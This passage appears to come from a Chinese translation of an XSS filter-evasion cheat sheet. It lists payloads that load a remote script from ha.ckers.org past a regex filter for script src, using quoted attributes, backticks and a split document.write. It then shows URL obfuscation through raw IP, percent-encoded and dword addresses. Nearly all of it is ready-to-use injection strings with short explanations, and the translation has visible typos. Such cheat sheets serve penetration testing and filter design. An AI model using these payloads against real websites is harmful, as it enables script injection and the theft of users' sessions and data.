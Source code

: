 另一个逃避相同正则 "/<script((\s+\w+(\s_=\s_(?:"(.)_?"|'(.)_?'|[^'">\s]+))?)+\s_|\s_)src/i"的xss代码

```
<SCRIPT a=">" '' SRC="http://ha.ckers.org/xss.js"></SCRIPT>

```

这是另一个xss例子去绕过相同的过滤器，关于"/<script((\s+\w+(\s_=\s_(?:"(.)_?"|'(.)_?'|[^'">\s]+))?)+\s_|\s_)src/i"的正则过滤。我知道，我说过我将不会去痛痛快快的聊减灾技术。但是这是我所看到的唯一例子在允许用户输入<SCRIPT>但是不允许通过src加在远程脚本的过滤这个xss的可用方法。（当然，还有一些其他方法去处理它，如果它们允许<SCRIPT> ）

```
<SCRIPT "a='>'" SRC="http://ha.ckers.org/xss.js"></SCRIPT>

```

最后一个绕过"/<script((\s+\w+(\s_=\s_(?:"(.)_?"|'(.)_?'|[^'">\s]+))?)+\s_|\s_)src/i"正则匹配的例子，通过重音符。（再以无法工作在firfox）

```
<SCRIPT a=`>` SRC="http://ha.ckers.org/xss.js"></SCRIPT>

```

这个xss例子押注域哪些正则并不去拼配一对引号，而是去发现任何引号后就立即结束参数字符串。

```
<SCRIPT a=">'>" SRC="http://ha.ckers.org/xss.js"></SCRIPT>

```

这xss仍然让我担心，因为他是几乎没有肯呢过去停止在没有阻止活动内容的情况下。

```
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://ha.ckers.org/xss.js"></SCRIPT>

```

URL 字符串绕过
---------

这里假设 "http://www.google.com/" 这种在语法上是不被允许的。

**IP代替域名**

```
<A HREF="http://66.102.7.147/">XSS</A>

```

**URL 编码**

```
<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>

```

**双字节编码**（注意：有其他的双字节编码变种。请参考下面混淆后的ip为更多信息）

```
<A HREF="http://1113982867/">XSS</A>

```

